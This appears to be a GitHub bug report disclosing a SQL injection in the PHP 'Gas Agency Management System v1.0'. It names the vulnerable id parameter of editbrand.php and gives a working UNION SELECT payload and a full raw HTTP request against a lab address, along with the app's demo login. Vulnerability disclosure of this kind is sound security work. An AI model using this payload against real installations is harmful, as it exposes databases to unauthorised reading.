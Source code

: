 # Gas Agency Management System v1.0 by mayuri_k has SQL injection

BUG_Author:

Login account: mayuri.infospace@gmail.com/admin

vendors: https://www.sourcecodester.com/php/15586/gas-agency-management-system-project-php-free-download-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /gasmark/editbrand.php?id=

Vulnerability location: /gasmark/editbrand.php?id=, id

dbname = gasmark

[+] Payload: /gasmark/editbrand.php?id=-1' union select 1,database(),3,4--+ // Leak place ---> id

```sql
GET /gasmark/editbrand.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=1848l0sacnthbvkk77stfdihkh
Connection: close


```

![image](https://github.com/debug601/bug_report/assets/54017627/93cd5d3f-e890-492a-af6e-edc861d777e6)
